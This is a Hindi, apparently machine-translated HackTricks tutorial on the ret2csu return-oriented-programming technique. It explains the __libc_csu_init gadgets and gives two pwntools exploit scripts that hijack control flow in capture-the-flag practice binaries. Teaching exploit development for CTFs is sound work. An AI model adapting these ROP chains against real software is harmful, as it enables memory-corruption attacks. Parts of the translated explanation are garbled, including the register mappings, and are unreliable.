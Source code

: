 # Ret2csu

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम विशेषज्ञ (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम विशेषज्ञ (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 पर **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में।

</details>
{% endhint %}

##

## [https://www.scs.stanford.edu/brop/bittau-brop.pdf](https://www.scs.stanford.edu/brop/bittau-brop.pdf)मौलिक जानकारी

**ret2csu** एक हैकिंग तकनीक है जिसका उपयोग तब किया जाता है जब आप किसी प्रोग्राम के नियंत्रण पर कब्जा पाने की कोशिश कर रहे हों लेकिन आपको उस प्रोग्राम के व्यवहार को बदलने के लिए सामान्य रूप से उपयोग किए जाने वाले **गैजेट्स** नहीं मिल रहे हैं।

जब एक प्रोग्राम किसी विशेष पुस्तकालय (जैसे libc) का उपयोग करता है, तो उसमें कुछ ऐसे निर्देशिका समावेश होते हैं जो विभिन्न टुकड़ों के बीच कैसे बातचीत करें को प्रबंधित करने के लिए निर्मित फ़ंक्शन होते हैं। इन फ़ंक्शनों में से कुछ छुपे हुए गहने होते हैं जो हमारे गुमशुदा गैजेट्स के रूप में काम कर सकते हैं, खासकर एक जिसे `__libc_csu_init` कहा जाता है।

### \_\_libc\_csu\_init में जादूगर गैजेट्स

**`__libc_csu_init`** में, दो निर्देशिका अनुक्रम हैं (गैजेट्स) जिन्हें हाइलाइट किया जाएगा:

1. पहला अनुक्रम हमें कई रजिस्टर्स (rbx, rbp, r12, r13, r14, r15) में मान सेट करने की अनुमति देता है। ये स्लॉट्स की तरह हैं जहाँ हम बाद में उपयोग करने के लिए संख्याएँ या पते संग्रहित कर सकते हैं।
```armasm
pop rbx;
pop rbp;
pop r12;
pop r13;
pop r14;
pop r15;
ret;
```
यह गैजेट हमें इन रजिस्टरों को नियंत्रित करने की अनुमति देता है, जिन्हें हम स्टैक से बाहर निकालकर उनमें डाल सकते हैं।

2. दूसरी क्रमश: उन मानों का उपयोग करने के लिए उपयोग करता है जिन्हें हमने सेट किया है कुछ काम करने के लिए:
* **विशिष्ट मानों को अन्य रजिस्टर में ले जाएं**, जिन्हें हम फ़ंक्शन में पैरामीटर के रूप में उपयोग करने के लिए तैयार करते हैं।
* **एक स्थान पर कॉल करें** जिसे r15 और rbx में मानों को जोड़कर निर्धारित किया गया है, फिर rbx को 8 से गुणा करके।
```armasm
mov rdx, r15;
mov rsi, r14;
mov edi, r13d;
call qword [r12 + rbx*8];
```
2. शायद आपको वहाँ लिखने के लिए कोई पता न हो और आपको **एक `ret` इंस्ट्रक्शन की आवश्यकता** हो। ध्यान दें कि दूसरा गैजेट भी **एक `ret` में समाप्त होगा**, लेकिन आपको उस तक पहुंचने के लिए कुछ **शर्तें** पूरी करनी होंगी:
```armasm
mov rdx, r15;
mov rsi, r14;
mov edi, r13d;
call qword [r12 + rbx*8];
add rbx, 0x1;
cmp rbp, rbx
jnz <func>
...
ret
```
The conditions will be:

* `[r12 + rbx*8]` कोई पता करने वाले फ़ंक्शन को स्टोर करने वाले पते पर प्वाइंट करना चाहिए (अगर कोई विचार नहीं है और कोई पाई नहीं है, तो आप सिर्फ `_init` फ़ंक्शन का उपयोग कर सकते हैं):
* यदि \_init `0x400560` पर है, GEF का उपयोग करके इसके लिए मेमोरी में एक पॉइंटर खोजें और `[r12 + rbx*8]` को पॉइंटर के साथ पते का पता होना चाहिए:
```bash
# Example from https://guyinatuxedo.github.io/18-ret2_csu_dl/ropemporium_ret2csu/index.html
gef➤  search-pattern 0x400560
[+] Searching '\x60\x05\x40' in memory
[+] In '/Hackery/pod/modules/ret2_csu_dl/ropemporium_ret2csu/ret2csu'(0x400000-0x401000), permission=r-x
0x400e38 - 0x400e44  →   "\x60\x05\x40[...]"
[+] In '/Hackery/pod/modules/ret2_csu_dl/ropemporium_ret2csu/ret2csu'(0x600000-0x601000), permission=r--
0x600e38 - 0x600e44  →   "\x60\x05\x40[...]"
```
* `rbp` और `rbx` का एक ही मान होना चाहिए ताकि जंप से बचा जा सके
* आपको ध्यान में रखने योग्य कुछ छूटे हुए पॉप्स हैं

## RDI और RSI

रेट2सीएसयू गैजेट से **`rdi`** और **`rsi`** को नियंत्रित करने का एक और तरीका यह है कि आप इसके विशिष्ट ऑफसेट तक पहुंचें:

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt="" width="283"><figcaption><p><a href="https://www.scs.stanford.edu/brop/bittau-brop.pdf">https://www.scs.stanford.edu/brop/bittau-brop.pdf</a></p></figcaption></figure>

अधिक जानकारी के लिए इस पेज की जाँच करें:

{% content-ref url="brop-blind-return-oriented-programming.md" %}
[brop-blind-return-oriented-programming.md](brop-blind-return-oriented-programming.md)
{% endcontent-ref %}

## उदाहरण

### कॉल का उपयोग

सोचिए आप एक सिस्टम कॉल करना चाहते हैं या `write()` जैसे फ़ंक्शन को कॉल करना चाहते हैं लेकिन `rdx` और `rsi` रजिस्टर में पैरामीटर के रूप में विशिष्ट मान चाहिए। सामान्यत: आप उन गैजेट्स की तलाश करेंगे जो इन रजिस्टर्स को सीधे सेट करते हैं, लेकिन आप कोई भी नहीं मिलता।

यहाँ **ret2csu** काम में आता है:

1. **रजिस्टर सेट करें**: पहले जादूगर गैजेट का उपयोग करें ताकि आप स्टैक से मानों को पॉप करके rbx, rbp, r12 (edi), r13 (rsi), r14 (rdx), और r15 में डाल सकें।
2. **दूसरा गैजेट उपयोग करें**: उन रजिस्टर्स को सेट करके, आप दूसरे गैजेट का उपयोग करते हैं। इससे आप `rdx` और `rsi` में अपने चुने हुए मानों को ले जाते हैं (यानी r14 और r13 से), फ़ंक्शन कॉल के लिए पैरामीटर्स को तैयार करते हैं। इसके अतिरिक्त, `r15` और `rbx` को नियंत्रित करके, आप प्रोग्राम को उस पते पर स्थित एक फ़ंक्शन को कॉल करने के लिए बना सकते हैं जिसे आप गणना करते हैं और `[r15 + rbx*8]` में रखते हैं।

आपके पास [**इस तकनीक का उपयोग करने और इसे समझाने का उदाहरण यहाँ है**](https://ir0nstone.gitbook.io/notes/types/stack/ret2csu/exploitation), और यह उसका अंतिम उत्पीड़न है जिसका उपयोग किया गया था:
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

POP_CHAIN = 0x00401224 # pop r12, r13, r14, r15, ret
REG_CALL = 0x00401208  # rdx, rsi, edi, call [r15 + rbx*8]
RW_LOC = 0x00404028

rop.raw('A' * 40)
rop.gets(RW_LOC)
rop.raw(POP_CHAIN)
rop.raw(0)                      # r12
rop.raw(0)                      # r13
rop.raw(0xdeadbeefcafed00d)     # r14 - popped into RDX!
rop.raw(RW_LOC)                 # r15 - holds location of called function!
rop.raw(REG_CALL)               # all the movs, plus the call

p.sendlineafter('me\n', rop.chain())
p.sendline(p64(elf.sym['win']))            # send to gets() so it's written
print(p.recvline())                        # should receive "Awesome work!"
```
{% hint style="warning" %}
ध्यान दें कि पिछला एक्सप्लॉइट **`RCE`** करने के लिए नहीं है, यह केवल एक फ़ंक्शन को बुलाने के लिए है जिसे **`win`** कहा जाता है (gets में `win` का पता stdin से लेते हुए ROP श्रृंखला में और इसे r15 में स्टोर करते हुए) तीसरे तर्क के साथ एक मान `0xdeadbeefcafed00d` के साथ।
{% endhint %}

### कॉल को छोड़कर और रिट तक पहुंचना

निम्नलिखित एक्सप्लॉइट [**इस पेज से निकाला गया था**](https://guyinatuxedo.github.io/18-ret2\_csu\_dl/ropemporium\_ret2csu/index.html) जहां **ret2csu** का उपयोग किया गया था लेकिन कॉल का उपयोग करने की बजाय, **तुलनाएँ छोड़कर और कॉल के बाद `रिट` तक पहुंचने** की कोशिश की गई थी:
```python
# Code from https://guyinatuxedo.github.io/18-ret2_csu_dl/ropemporium_ret2csu/index.html
# This exploit is based off of: https://www.rootnetsec.com/ropemporium-ret2csu/

from pwn import *

# Establish the target process
target = process('./ret2csu')
#gdb.attach(target, gdbscript = 'b *    0x4007b0')

# Our two __libc_csu_init rop gadgets
csuGadget0 = p64(0x40089a)
csuGadget1 = p64(0x400880)

# Address of ret2win and _init pointer
ret2win = p64(0x4007b1)
initPtr = p64(0x600e38)

# Padding from start of input to saved return address
payload = "0"*0x28

# Our first gadget, and the values to be popped from the stack

# Also a value of 0xf means it is a filler value
payload += csuGadget0
payload += p64(0x0) # RBX
payload += p64(0x1) # RBP
payload += initPtr # R12, will be called in `CALL qword ptr [R12 + RBX*0x8]`
payload += p64(0xf) # R13
payload += p64(0xf) # R14
payload += p64(0xdeadcafebabebeef) # R15 > soon to be RDX

# Our second gadget, and the corresponding stack values
payload += csuGadget1
payload += p64(0xf) # qword value for the ADD RSP, 0x8 adjustment
payload += p64(0xf) # RBX
payload += p64(0xf) # RBP
payload += p64(0xf) # R12
payload += p64(0xf) # R13
payload += p64(0xf) # R14
payload += p64(0xf) # R15

# Finally the address of ret2win
payload += ret2win

# Send the payload
target.sendline(payload)
target.interactive()
```
### क्यों न केवल libc का प्रयोग करें?

सामान्यत: ये मामले [**ret2plt**](../common-binary-protections-and-bypasses/aslr/ret2plt.md) + [**ret2lib**](ret2lib/) के लिए भी संवेदनशील होते हैं, लेकिन कभी-कभी आपको उन सभी पैरामीटरों को नियंत्रित करने की आवश्यकता होती है जो आपको सीधे libc में पाए जाने वाले गैजेट्स के साथ आसानी से नियंत्रित नहीं किया जा सकता है। उदाहरण के लिए, `write()` फ़ंक्शन को तीन पैरामीटर की आवश्यकता होती है, और **इन सभी को सीधे सेट करने के लिए गैजेट्स खोजना संभव नहीं हो सकता**।
